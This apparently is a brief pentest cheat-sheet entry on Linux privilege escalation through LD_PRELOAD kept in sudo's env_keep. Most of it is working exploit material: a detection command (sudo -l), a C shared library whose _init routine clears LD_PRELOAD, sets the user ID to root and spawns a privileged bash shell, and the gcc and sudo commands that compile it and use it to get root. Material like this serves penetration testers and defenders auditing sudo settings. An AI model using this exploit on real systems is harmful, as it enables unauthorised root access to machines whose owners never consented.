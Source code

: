 # LD_PRELOAD (env_keep)
LD_PRELOAD loads a shared object before any others when a program is run.
#### Detection
```bash
sudo -l
```

#### Exploitation code (ld_preload.c)
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

#### Exploitation
```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so ld_preload.c
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
